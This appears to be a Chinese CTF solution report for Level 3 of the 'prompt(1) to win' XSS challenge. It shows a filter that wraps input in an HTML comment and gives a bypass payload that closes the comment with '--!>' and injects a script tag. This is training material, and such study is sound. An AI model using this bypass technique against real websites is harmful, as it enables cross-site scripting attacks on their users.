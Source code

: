 ## [[prompt(1) to win](http://prompt.ml)] [[Level 3 - HTML Comment](http://prompt.ml/3)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-3-html-comment/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

------

## 解题报告

正则把 `->` 过略了，导致我们无法闭合注释。

但是 HTML 注释还有另一种闭合方式：`<!--  xxxxx  --!>`

因此构造这样的 payload 即可实现绕过：`--!><script>prompt(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2003%20-%20HTML%20Comment/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
